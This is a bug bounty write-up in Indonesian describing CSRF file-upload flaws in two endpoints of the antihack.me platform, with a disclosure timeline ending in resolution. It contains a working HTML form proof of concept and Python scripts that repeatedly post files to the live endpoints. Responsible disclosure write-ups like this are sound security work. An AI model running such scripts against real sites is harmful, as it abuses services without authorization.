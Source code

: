 ```yaml
---
layout: post
title: "[Bug Bounty] Antihack.me CSRF File Upload Vulnerability"
date: 2019-01-09 07:00
categories: bugbounty
---
```

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/logo.png?raw=true">
</div>


#### <b>CSFR #1 On Profile Image File Upload</b>
Antihack.me merupakan sebuah website Bug Bounty Platform asal singapura. Setelah mendaftarkan user baru dan login ke aplikasi, kita dapat mengatur profile kita sebagai bug hunter, termasuk juga setting avatar/photo profile. Tertarik dengan fitur upload imagenya, kita coba intercept request upload image tersebut.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/burp.png?raw=true">
</div>

Terlihat disana beberapa parameter yang dikirimkan, akan tetapi disana tidak ada csrf protection, artinya siapapun dapat mengakses fitur upload ini, sekalipun dia tidak memepunyai akses ke akun manapun.

Lalu kami coba test request dengan html:
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>CSRF File Upload</title>
</head>
<body>
	<form action="https://www.antihack.me/php/img_save_to_file_hacker.php" method="POST" name="csrf" enctype="multipart/form-data">
		<input type="file" name="img">
		<input name="HOST" value="AntiHACK">
		<input type="submit" value="Kirim">
	</form>
</body>
</html>
```

Lalu kami request dengan secript diatas dan didapatkan file berhasil diupload dengan baik. 
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/hasil%20html.png?raw=true">
</div>

Lalu kami coba buat script csrf dengan python:
```
#!/usr/bin/python3

import requests

headers = {
	'Origin':'www.antihack.me'
}
files = {
        'img': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }
data = {
	"HOST":"AntiHACK"
}

for i in range(3):
	r = requests.post("https://www.antihack.me/php/img_save_to_file_hacker.php",files=files, headers=headers, data=data)
	print(r.text)
```
Ketika dieksekusi, file terupload dengan baik.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/hasil%20python.png?raw=true">
</div>

#### <b>CSRF #2 On Report And Comment File Upload</b>

Sepertihalnya platform bug bounty pada umumnya, disana terdapat fitur untuk melakukan reporting terkait celah keamanan yang ditemukan. Didalam fitur reporting tersebut terdapat beberapa fungsi editing, tak lupa fungsi upload file gambar/video juga disertakan guna kelengkapan report. 

Dengan script python:
```
#!/usr/bin/python3

import requests


files = {
        'files[]': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }

for i in range(5):
	r = requests.post("https://www.antihack.me/php/ajax_upload_file_company_new.php",files=files)
	print(r.text)


```

Didapatkan result sebagai berikut:

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf2/2018-12-27_21-11.png?raw=true">
</div>

```
2018-12-28: Bug reported
2018-12-29: Triaged
2019-01-09: Report Resolved
2019-01-09: Swag Rewarded
```